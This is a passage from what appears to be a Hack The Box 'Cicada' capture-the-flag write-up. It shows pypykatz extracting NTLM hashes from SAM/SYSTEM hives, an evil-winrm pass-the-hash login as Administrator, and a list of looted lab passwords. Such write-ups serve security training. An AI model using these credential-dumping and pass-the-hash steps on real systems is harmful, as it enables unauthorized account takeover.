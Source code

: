 pypykatz:
```
┌─[✗]─[rar@parrot]─[~/HTB/Cicada]
└──╼ $pypykatz registry --sam sam system
WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Logging in by passing the administrator's hash:
```
┌─[rar@parrot]─[~/HTB/Cicada]
└──╼ $evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```
and thats it ! we are NT AUTHORITY

## Loot 
```
michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
david.orelious:aRt$Lp#7t*VQ!3
emily.oscars:Q!3@Lp#M6b*7t*Vt
Administrator:2b87e7c93a3e8a0ea4a581937016f341
```

